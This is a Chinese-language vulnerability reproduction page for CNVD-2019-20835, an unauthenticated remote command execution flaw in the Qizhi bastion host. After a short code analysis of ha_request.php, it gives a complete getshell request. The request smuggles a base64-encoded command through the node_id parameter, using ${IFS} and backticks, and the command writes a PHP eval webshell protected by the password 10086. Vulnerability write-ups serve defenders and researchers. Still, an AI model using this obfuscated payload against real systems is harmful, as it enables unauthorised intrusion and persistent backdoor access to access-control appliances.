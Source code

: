 （CNVD-2019-20835）齐治堡垒机 前台远程命令执行漏洞
==================================================

一、漏洞简介
------------

利用条件：无需登录

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

问题出现在ha\_request.php文件，第37行的exec函数，\$url为用户可控的变量，可见第33和34行。目光来到第23和24行，只要node\_request函数的返回值为"OK"，即可跳过fatal函数（此函数为自定义函数，作用类似PHP内置的exit函数），继续往下执行。

　　Node\_request函数的定义在include/common.php文件中，见下图2。按照其原本的逻辑，其作用是请求\$url，并返回其内容。根据代码逻辑，\$url
=
\"http://\$req\_ipaddr\".\"/listener/\$method.php?n=\$req\_node\_id&a=\".urlencode(json\_encode(\$args));。所以\$url变量值类似于

<http://10.20.10.11/listener/cluster_manage.php?n=1&a=%5B%22install%22%5D>这样的字符串。

　　但是\$req\_ipaddr和\$req\_node\_id均来自用户输入。因此，假设10.20.10.11为黑客可控的服务器，listener/cluster\_manage.php文件的内容为"\<?php
echo
'OK';\>"，即可使得node\_request函数返回"OK"，从而跳过fatal函数，继续往下执行来到exec函数。

　　回到exec函数，此时该函数的第一个参数是这样的，\"wget
\--no-check-certificate http://10.20.10.11
/ha\_get\_install.php?n=\$req\_node\_id -O
backup\_scripts.tar.bz2\"，所以我们的payload只能放在\$req\_node\_id变量中。

　　见下图，\$req\_ipaddr和\$req\_node\_id其实来自于\$\_REQUEST\['ipaddr'\]和\$\_REQUEST\[node\_id'\]，并做了全局过滤，删除掉一些危险字符。![1.png](./.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId26.png)![2.png](./.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId27.png)![3.png](./.resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId28.png)

### 漏洞复现

访问**http://www.0-sec.org/listener/cluster\_manage.php**返回"OK"。

执行以下链接即可getshell，执行成功后，生成PHP一句话马/var/www/shterm/resources/qrcode/lbj77.php
密码10086

    https://www.0-sec.org/ha_request.php?action=install&ipaddr=www.0-sec.org&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS}

参考链接
--------

> https://www.cnblogs.com/StudyCat/p/11256944.html
